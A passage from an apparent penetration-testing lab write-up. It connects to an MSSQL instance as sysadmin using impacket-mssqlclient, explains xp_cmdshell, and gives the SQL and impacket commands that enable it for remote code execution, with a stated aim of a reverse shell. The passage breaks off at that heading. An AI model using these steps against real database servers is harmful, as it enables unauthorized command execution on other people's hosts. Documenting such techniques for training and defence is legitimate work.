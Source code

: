     -   {{< figure src="/ox-hugo/2025-01-13-130203_.png" >}}
    -   We are a sysadmin so let's connect and get a reverse shell.


#### Connecting to the MSSQL Service: {#connecting-to-the-mssql-service}

-   We can use impacket-mssqlclient to connect to the instance.
    ```shell
    impacket-mssqlclient $user@$box:$pass
    ```

    -   {{< figure src="/ox-hugo/2025-01-13-130617_.png" >}}
-   As we are a sysadmin we can enable `xp_cmdshell`


##### `xp_cmdshell` primer: {#xp-cmdshell-primer}

-   **Core Functionality**:
    -   Allows execution of Windows command shell (`cmd.exe`) commands directly from within SQL (+RCE+)
    -   Extended stored procedure that acts as a bridge between SQL Server and the operating system
    -   Returns command output as rows of text in the result set
    -   Limited to 8192 bytes for command strings

-   **Configuration Settings**:
    -   Disabled by default since SQL Server 2005
    -   Restricted to `sysadmin` role members only (which we are)


#### Enabling `xp_cmdshell` For RCE On The Host: {#enabling-xp-cmdshell-for-rce-on-the-host}

-   There are multiple ways we can enable `xp_cmdshell`, I will share two.

-   Manual method, from an MSSQL shell we can enter the below commands.
    ```sql
    -- Enable advanced options
    sp_configure 'show advanced options', 1;
    RECONFIGURE;

    -- Enable xp_cmdshell
    sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    ```

-   Automatic method using `impacket-mssqlclient` built in functionality:
    -   Luckily impacket has built in functionality to enable this.
        ```sql
        -- Enable
        enable_xp_cmdshell
        RECONFIGURE
        ```
    -   {{< figure src="/ox-hugo/2025-01-13-134232_.png" >}}


### Using RCE VIA `xp_cmdshell` To Get A Reverse Shell: {#using-rce-via-xp-cmdshell-to-get-a-reverse-shell}
